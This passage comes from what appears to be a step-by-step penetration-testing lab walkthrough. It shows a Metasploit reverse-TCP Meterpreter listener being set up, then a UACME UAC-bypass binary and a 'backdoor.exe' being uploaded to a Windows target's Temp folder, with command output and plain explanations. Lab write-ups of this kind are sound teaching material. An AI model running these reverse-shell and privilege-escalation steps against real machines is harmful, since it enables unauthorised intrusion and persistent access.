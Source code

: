 #### **What Happened:**
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.31.2
LHOST => 10.10.31.2
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.31.2:4444
```

**Great!** Our listener is ready and waiting for connections on port 4444.

---

### **Step 10: Upload Files to Target (File Transfer)**

**What We're Doing:** Moving our backdoor and UAC bypass tool to the target computer.

#### **Commands Used:**
```bash
shell
cd C:\Users\admin\AppData\Local\Temp
upload /root/Desktop/tools/UACME/Akagi64.exe .
upload /root/backdoor.exe .
ls
```

#### **What Each Command Does:**
- `shell` = Get a Windows command prompt
- `cd C:\...Temp` = Change to temporary directory
- `upload source destination` = Copy files from our machine to target
- `ls` = List files to verify upload

#### **What Happened:**
```bash
meterpreter > shell
Process 944 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\Users\admin\AppData\Local\Temp
C:\Users\admin\AppData\Local\Temp>

meterpreter > upload /root/Desktop/tools/UACME/Akagi64.exe .
[*] Uploading  : /root/Desktop/tools/UACME/Akagi64.exe -> .\Akagi64.exe
[*] Completed  : /root/Desktop/tools/UACME/Akagi64.exe -> .\Akagi64.exe

meterpreter > upload /root/backdoor.exe .
[*] Uploading  : /root/backdoor.exe -> .\backdoor.exe
[*] Completed  : /root/backdoor.exe -> .\backdoor.exe

meterpreter > ls
Listing: C:\Users\admin\AppData\Local\Temp
==========================================

Mode                Size      Type  Last modified              Name
----                ----      ----  -------------              ----
100777/rwxrwxrwx    199168    fil   2024-07-09 10:55:53 +0530  Akagi64.exe
100777/rwxrwxrwx    73802     fil   2024-07-09 10:56:01 +0530  backdoor.exe
```